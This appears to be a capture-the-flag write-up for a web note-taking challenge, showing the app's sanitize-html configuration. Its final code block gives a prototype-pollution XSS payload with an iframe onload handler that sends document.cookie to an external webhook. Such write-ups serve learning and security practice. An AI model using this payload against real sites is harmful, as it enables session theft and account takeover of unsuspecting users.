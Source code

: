 ## Description
Casual coding vibes...until the notes start acting weird.

## Solution
The site provided looks like this
<img width="1919" height="683" alt="image" src="https://github.com/user-attachments/assets/fe973214-2163-4de8-8ff7-be871801e17b" />

In the source code we see that there's a `/note` and `/report` endpoint, and there's a sanitize html code block
```
sanitizeHtml.defaults = {allowedTags: ["h3", "h4", "h5", "h6", "blockquote", "p", "a", "ul", "ol", "nl", "li", "b", "i", "strong", "em", "strike", "abbr", "code", "hr", "br", "div", "table", "thead", "caption", "tbody", "tr", "th", "td", "pre", "iframe"], disallowedTagsMode: "discard", allowedAttributes: {a: ["href", "name", "target"], img: ["src"]}, selfClosing: ["img", "br", "hr", "area", "base", "basefont", "input", "link", "meta"], allowedSchemes: ["http", "https", "ftp", "mailto"], allowedSchemesByTag: {}, allowedSchemesAppliedToAttributes: ["href", "src", "cite"], allowProtocolRelative: true, enforceHtmlBoundary: false};
```
This is a classic XSS challenge with prototyping pollution. We then use this payload to obtain the flag
```
http://127.0.0.1:5000/?__proto__[*]=['onload']&note=<iframe onload="fetch('https://webhook.site/7cc8de8a-4e1a-48c4-91b8-89b3a0591a0f?c='+document.cookie)"></iframe>
```
